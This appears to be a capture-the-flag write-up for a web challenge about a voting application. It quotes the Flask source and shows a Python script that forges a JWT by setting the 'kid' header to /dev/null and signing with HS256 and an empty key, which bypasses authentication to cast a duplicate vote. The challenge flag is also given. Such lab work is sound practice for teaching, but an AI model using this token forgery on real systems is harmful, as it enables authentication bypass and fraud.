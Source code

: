 # The voting logs ain't making sense - web

## Challenge

A paranormal event was observed during the voting. Apparently multiple successful vote submissions were starting to be observed in the logs for an individual and votes for citizens that don't exist? Can you find out how an attacker may have done this and submit a vote for the citizen ID CIT1337 who has already voted?

## Solve

Observing the code base we can see:

- We can generate a JWT with values of our choosing with the admin API `generate_qr_code()`:

```py
@admin_bp.route("/generate-qr", methods=["POST"])
@require_polling_key
def generate_qr_code():
    try:
        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400

        citizen_id = data.get("citizen_id")
        name = data.get("name")
        state = data.get("state")

        if not all([citizen_id, name, state]):
            return jsonify({"error": "Missing required fields: citizen_id, name, state"}), 400

        db = Database()
        if db.citizen_has_voted(citizen_id):
            return jsonify({"error": f"Citizen '{citizen_id}' has already voted"}), 400

        token = create_jwt_token(citizen_id, name, state, current_app.config["JWT_PRIVATE_KEY_PATH"])
        qr_code_base64 = generate_qr_image(token)

        return jsonify({
            "qr_code": qr_code_base64,
            "token": token
        })

    except Exception as e:
        return jsonify({"error": f"Failed to generate QR code: {str(e)}"}), 500
```

However, if we attempt to generate a JWT for `CIT1337`, we run in to `db.citizen_has_voted()`:

```py
def citizen_has_voted(self, citizen_id):
        conn = self.get_connection()
        try:
            cursor = conn.cursor()
            cursor.execute("SELECT * FROM votes WHERE citizen_id=?", (citizen_id,))
            rows = cursor.fetchall()
            
            return len(rows) != 0
        except Exception as e:
            raise e
        finally:
            conn.close()
```

- We can submit votes with `submit_vote()` using the voting API `/submit-vote` endpoint:

```py
@voting_bp.route("/submit-vote", methods=["POST"])
def submit_vote():
    """
    Citizen submits a vote for their chosen party
    """
    try:
        auth_header = request.headers.get("Authorization")
        if not auth_header:
            return jsonify({"error": "Missing Authorization header"}), 401
            
        payload = decode_jwt_token(auth_header)
        if not payload:
            return jsonify({"error": "Invalid or expired token"}), 401
            
        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400
            
        party = data.get("party")
        if not party:
            return jsonify({"error": "Missing required field: party"}), 400
            
        citizen_id = payload.get("citizenId")
        name = payload.get("name")
        state = payload.get("state")
        vote_identifier = payload.get("vote_identifier")
        
        if not all([citizen_id, name, state, vote_identifier]):
            return jsonify({"error": "Invalid token payload"}), 401
            
        db = Database()
        success = db.submit_vote(citizen_id, party, state, vote_identifier)
        
        if success:
            response_data = {
                "success": True,
                "message": "Vote submitted successfully",
                "citizen_id": citizen_id,
                "party": party,
                "state": state
            }
```

The key here is that `citizen_has_voted()` is never called in `submit_vote()` - meaning that if we can obtain a valid JWT for `CIT1337`, `submit_vote()` will process it without checking if a duplicate exists.

- In `create_jwt_token()` we can see that the key id or `kid` header parameter is included and points the server towards the public key file to use when verifying signatures:

```py
def create_jwt_token(citizen_id, name, state, private_key_path):
    payload = {
        "citizenId": citizen_id,
        "name": name,
        "state": state,
        "vote_identifier": os.urandom(32).hex(),
        "iat": int(datetime.now().timestamp()),
        "exp": int((datetime.now() + timedelta(hours=24)).timestamp())
    }

    headers = {}
    # Public keys don"t have an extension while private key does. Kid value will be public key.
    public_key_path = private_key_path.replace(".priv", "")
    headers["kid"] = public_key_path
    key_file_path = private_key_path

    with open(key_file_path, "r") as key_file:
        private_key = key_file.read()

    token = jwt.encode(
        payload,
        private_key,
        algorithm="RS256",
        headers=headers
    )

    return token
```

This [blog post](https://www.vaadata.com/blog/jwt-json-web-token-vulnerabilities-common-attacks-and-security-best-practices/) describes how a user controlled `kid` parameter can lead to vulnerabilities if there is file upload / known files on the local server. Since we don't know whether file upload is possible, we:
- Generate a valid JWT with any values using `generate-qr()` 
- Decode the JWT, changing:
  -  `kid` header parameter to `/dev/null`
  -  `alg` header parameter to a symmetric algorithm (e.g `HS256`) 
  -  `citizen_id` to `CIT1337`
- Create a new JWT with the updated values and sign with an empty key:

```py
import jwt

payload = {
  "citizenId": "CIT1337",
  "name": "any",
  "state": "any",
  "vote_identifier": "fc2396184b4111ebd7c280fcaf58a54884230dd4a42924f48643fc45e3c25ee3",
  "iat": 1754193048,
  "exp": 1754279448
}
headers = { "kid": "/dev/null", "alg": "HS256" }

token = jwt.encode(payload, key='', algorithm='HS256', headers=headers)
print(token)
```

Now, if the server attempts to validate the JWT with `/dev/null` as the key, and it matches, it will decode the JWT with an empty string and consider our forged JWT valid. And it works!

`cysea{you_got_to_be_KIDding_me_b60c85395d}`
